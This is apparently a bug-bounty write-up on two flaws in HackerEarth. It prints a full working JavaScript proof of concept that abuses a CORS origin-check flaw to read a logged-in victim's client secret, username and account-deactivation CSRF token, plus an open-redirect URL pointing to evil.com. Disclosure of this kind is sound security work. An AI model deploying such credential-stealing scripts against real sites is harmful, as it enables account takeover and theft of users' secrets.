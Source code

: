 ```yaml
---
title:      Stealing secrets tokens and all private info of hackerearth users  
date:       2020-08-30 11:31:19
author:     dr3dd
summary:    Stealing secrets tokens of hackerearth users account 
categories: Bug-Bounty
thumbnail:  book
tags:
 - Bug-Bounty
---
```


Hi all,

I found two bugs in hackerearth. Got T-shirt as swag.

### 1. cores misconfiguration

When i change the origin header in request to `https://www.hackerearth.com.evil.com` the responce i got was:

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.evil.com
```

The backend regex only checks for `www.hackerearth.com` after `https://`. So i made a subdomain of `www.hackerearth.com.dr3dd.live`. After sending this subdomain in request as origin header i got below response: 

```python
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://www.hackerearth.com.dr3dd.live
```

As we can see `Access-Control-Allow-Credentials: true` for `www.hackerearth.com.dr3dd.live`. Yesss!! 
So i wrote a small js script to steal secrets tokens of victim account.

```html
<!DOCTYPE html>
<html>
<body>

<div>
<h1>Getting hackerearth Client secrets for victim!!!</h1>
<button type="button" onclick="loadDoc()">Get secrets!!!</button>
  <div id="demo1"></div>
  <div id="demo2"></div>
  <div id="demo3"></div>
<button type="button" onclick="get_csrf_token()">You can get any csrf token and make changes in victim account like this is account deactivate csrf token!!!</button>
  <div id="demo4"></div>
</div>

<script>
function loadDoc() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc=parser.parseFromString(this.responseText, "text/html").documentElement;
        var clientId = xmlDoc.querySelector('#client-id');
        var clientSecret = xmlDoc.querySelector('#client-secret');
        var username = xmlDoc.querySelector('#change-username');
        document.getElementById("demo1").innerHTML = clientId.innerText;
        document.getElementById("demo2").innerHTML = clientSecret.innerText;
        document.getElementById("demo3").innerHTML = username.innerText.replace('Edit','');;
        
    }
  };
  xhttp.open("GET", "https://www.hackerearth.com/users/profile-settings/", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
function get_csrf_token(){
  var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        var parser=new DOMParser();
        var xmlDoc= parser.parseFromString(this.responseText, "text/html").documentElement;
        var csrf = xmlDoc.querySelector('#deactivate-form')[0].value;
      document.getElementById("demo4").innerHTML = "csrf for deactivate account : " + csrf;
    }
  };
  var username = document.getElementById("demo3").innerText;
  var url = "https://www.hackerearth.com/deactivate/" + username.replace("Username: ","");;
  xhttp.open("GET", url, true);
  xhttp.withCredentials = true;
  xhttp.send();
}
  
  
</script>

</body>
</html>
```

I have hosted it on `http://www.hackerearth.com.dr3dd.live/cores.html` first button steal secrets token and second one steal csrf tokens of victim.


### 2. Open Redirect 

This one is pretty simple bug.

`https://www.hackerearth.com/social-login-complete-page/?redirect=https://evil.com`
